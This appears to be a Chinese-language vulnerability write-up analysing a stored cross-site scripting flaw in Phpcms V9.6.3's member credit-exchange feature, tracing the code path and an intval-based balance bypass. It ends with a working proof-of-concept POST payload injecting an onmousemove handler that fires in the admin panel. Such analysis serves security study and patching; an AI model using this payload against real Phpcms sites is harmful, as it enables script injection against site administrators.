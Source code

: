 Phpcms V9.6.3 储存型xss
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

问题出在会员的积分兑换功能，文件：

    /phpcms/modules/member/index.php
     public function change_credit() {
      $memberinfo = $this->memberinfo;
      //加载用户模块配置
      $member_setting = getcache('member_setting');
      $this->_init_phpsso();
      $setting = $this->client->ps_getcreditlist();
      $outcredit = unserialize($setting);
      $setting = $this->client->ps_getapplist();
      $applist = unserialize($setting);

      if(isset($_POST['dosubmit'])) {
       //本系统积分兑换数
       $fromvalue = intval($_POST['fromvalue']);
       //本系统积分类型
       $from = $_POST['from'];
       $toappid_to = explode('_', $_POST['to']);      //这个是问题的参数
       //目标系统appid
       $toappid = $toappid_to[0];
       //目标系统积分类型
       $to = $toappid_to[1];
       if($from == 1) {
        if($memberinfo['point'] < $fromvalue) {
         showmessage(L('need_more_point'), HTTP_REFERER);
        }
       } elseif($from == 2) {
        if($memberinfo['amount'] < $fromvalue) {
         showmessage(L('need_more_amount'), HTTP_REFERER);
        }
       } else {
        showmessage(L('credit_setting_error'), HTTP_REFERER);
       }

       $status = $this->client->ps_changecredit($memberinfo['phpssouid'], $from, $toappid, $to, $fromvalue);

这里有个问题，由于`if($memberinfo['point'] < $fromvalue)`所以，`$fromvalue`不能大于会员的点数，但是没充值的状态下，点数是为0的，但是又由于上面有`intval($fromvalue)`，所以我们可以`$fromvalue=0.9`经过`intval`后就成了`0`，也就绕过了上面的逻辑。跟进`ps_changecredit`函数：

    public function ps_changecredit($uid, $from, $toappid, $to, $credit) {
      return $this->_ps_send('changecredit', array('uid'=>$uid, 'from'=>$from, 'toappid'=>$toappid, 'to'=>$to, 'credit'=>$credit));
     }

继续跟进`_ps_send`函数：

    private function _ps_send($action, $data = null) {
       return $this->_ps_post($this->ps_api_url."/index.php?m=phpsso&c=index&a=".$action, 500000, $this->auth_data($data));
     }

最后是经过`auth_data`函数处理和加密，`auth_data`调用`sys_auth`加密函数进行加密:

    public function auth_data($data) {
      $s = $sep = '';
      foreach($data as $k => $v) {
       if(is_array($v)) {
        $s2 = $sep2 = '';
        foreach($v as $k2 => $v2) {
          $s2 .= "$sep2{$k}[$k2]=".$this->_ps_stripslashes($v2);
         $sep2 = '&';
        }
        $s .= $sep.$s2;
       } else {
        $s .= "$sep$k=".$this->_ps_stripslashes($v);
       }
       $sep = '&';
      }

      $auth_s = 'v='.$this->ps_vsersion.'&appid='.APPID.'&data='.urlencode($this->sys_auth($s));
      return $auth_s;
     }

`_ps_post`函数主要就是让服务器访问自己的网站上的一个地址也就是访问了`phpsso`的`changecredit`函数（方法）。我们先来看看`phpsso`：

    class phpsso {

     public $db, $settings, $applist, $appid, $data;
     /**
      * 构造函数
      */
     public function __construct() {
      $this->db = pc_base::load_model('member_model');
      pc_base::load_app_func('global');

      /*获取系统配置*/
      $this->settings = getcache('settings', 'admin');
      $this->applist = getcache('applist', 'admin');

      if(isset($_GET) && is_array($_GET) && count($_GET) > 0) {
       foreach($_GET as $k=>$v) {
        if(!in_array($k, array('m','c','a'))) {
         $_POST[$k] = $v;
        }
       }
      }

      if(isset($_POST['appid'])) {
       $this->appid = intval($_POST['appid']);
      } else {
       exit('0');
      }

      if(isset($_POST['data'])) {
       parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);


    parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);可以看到是通过sys_auth函数解密（加密跟解密的函数是一样的）。
    最后来看看changecredit：
     public function changecredit() {
      $this->uid = isset($this->data['uid']) ? $this->data['uid'] : exit('0');
      $this->toappid = isset($this->data['toappid']) ? $this->data['toappid'] : exit('0');
      $this->from = isset($this->data['from']) ? $this->data['from'] : exit('0');
      $this->to = isset($this->data['to']) ? $this->data['to'] : exit('0');
      $this->credit = isset($this->data['credit']) ? $this->data['credit'] : exit('0');
      $this->appname = $this->applist[$this->appid]['name'];
      $outcredit = $this->getcredit(1);
      //目标系统积分增加数
      $this->credit = floor($this->credit * $outcredit[$this->from.'_'.$this->to]['torate'] / $outcredit[$this->from.'_'.$this->to]['fromrate']);

      /*插入消息队列*/
      $noticedata['appname'] = $this->appname;
      $noticedata['uid'] = $this->uid;
      $noticedata['toappid'] = $this->toappid;
      $noticedata['totypeid'] = $this->to;
      $noticedata['credit'] = $this->credit;
      messagequeue::add('change_credit', $noticedata);
      exit('1');
     }


    这里是进入数据库了：messagequeue::add('change_credit', $noticedata);
     public static function add($operation, $noticedata_send) {
      $db = self::get_db();
      $noticedata_send['action'] = $operation;
      $noticedata_send_string = array2string($noticedata_send);

      if ($noticeid = $db->insert(array('operation'=>$operation, 'noticedata'=>$noticedata_send_string, 'dateline'=>SYS_TIME), 1)) {
       self::notice($operation, $noticedata_send, $noticeid);
       return 1;
      } else {
       return 0;
      }
     }

调用insert写入数据。。这里就不跟了。由于系统开启了gpc（两次，初始化一次，phpsso一次），所以进去的数据是经过两次gpc的输出跟模板就不说了，反正没过滤直接出来

整理一下思路，先从积分兑换填写表单，然后将数据整理成数组经过`sys_auth`加密一次，然后服务器发送数据包给自己，收到数据包之后用`sys_auth`函数解密，然后调用`changecredit`方法，`inert`插入数据库，然后管理员在后台点击通信信息的时候触发xss!

### 漏洞复现

利用方法，先注册一个帐号，然后登录，然后访问:http://www.0-sec.org/index.php?m=member&c=index&a=change\_credit&post:

    dosubmit=1&fromvalue=0.6&from=1id=1`setset'&to=}" onmousemove=alert(1)>//

![1.png](./.resource/PhpcmsV9.6.3储存型xss/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/1860
